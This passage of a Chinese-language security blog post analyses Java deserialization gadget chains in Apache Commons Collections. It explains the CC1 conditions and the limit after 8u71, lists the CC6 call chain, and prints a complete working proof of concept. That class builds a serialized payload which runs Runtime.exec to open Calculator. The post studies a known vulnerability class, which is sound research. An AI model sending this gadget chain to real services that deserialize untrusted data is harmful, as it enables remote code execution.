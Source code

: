 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),<br>};<br>``` |

但是，执行过后，发现仍然没有弹出计算器。

动态调试发现与 AnnotationInvocationHandler 类的逻辑有关，在 `AnnotationInvocationHandler:readObject` 的逻辑中，有一个 if 语句对 var7 进行判断，只有在其不是 null 的时候才会进入里面执行 setValue，否则不会进入也就不会触发漏洞。

那么如何让这个 var7 不为 null 呢？需要如下两个条件:

1.  `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第一个参数必须是 Annotation 的子类，且其中必须含有至少一个方法，假设方法名是 X
2.  被 TransformedMap.decorate 修饰的 Map 中必须有一个键名为 X 的元素

所以，前面的 payload 中用到了 `Retention.class` ，因为 Retention 有一个方法，名为 value。为了再满足第二个条件，需要给 Map 中放入一个 Key 是 value 的元素:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```java<br>innerMap.put("value","Geekby");<br>``` |

但是这个 Payload 有一定局限性，在 Java 8u71 以后的版本中，由于 `sun.reflect.annotation.AnnotationInvocationHandler` 发生了变化导致不再可用。

## [](#3-commonscollections-6-gadget-%E5%88%86%E6%9E%90)3 CommonsCollections 6 Gadget 分析

### [](#31-%E8%B0%83%E7%94%A8%E9%93%BE)3.1 调用链

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```fallback<br>java.io.ObjectInputStream.readObject()<br>    java.util.HashSet.readObject()<br>        java.util.HashMap.put()<br>        java.util.HashMap.hash()<br>            org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()<br>            org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()<br>                org.apache.commons.collections.map.LazyMap.get()<br>                    org.apache.commons.collections.functors.ChainedTransformer.transform()<br>                    org.apache.commons.collections.functors.InvokerTransformer.transform()<br>                    java.lang.reflect.Method.invoke()<br>                        java.lang.Runtime.exec()<br>``` |

### [](#32-poc)3.2 POC

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>``` | ```java<br>public class Main {<br>    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {<br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>                new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>        };<br>        Transformer transformerChain = new ChainedTransformer(transformers);<br>        Map innerMap = new HashMap();<br>        Map lazyMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));<br>        TiedMapEntry te = new TiedMapEntry(lazyMap, "poc");<br><br>        HashSet ht = new HashSet();<br>        ht.add(te);<br><br>        innerMap.remove("poc");<br><br>        Class c = LazyMap.class;<br>        Field f = c.getDeclaredField("factory");<br>        f.setAccessible(true);<br>        f.set(lazyMap, transformerChain);<br><br><br>        // 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(ht);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br><br>    }<br>}<br>``` |

### [](#33-%E5%88%86%E6%9E%90)3.3 分析

CommonsCollections 6 的 sink 链使用的依旧是 `InvokerTransformer` 反射接口，利用 `ChainedTransformer` 串联三次 `InvokerTransformer` 反射和 `ConstantTransformer` 接口，获取 Runtime 类。

在 `CommonsCollections 1` 中，通过交叉引用搜索到另外一个类 `LazyMap` 中的 `get` 方法调用了 `transform` 方法。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291059769.png-water_print](assets/1699411715-0c6f8cf6b9cc4a43dfeeeaecb33cde01.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108291059769.png-water_print")
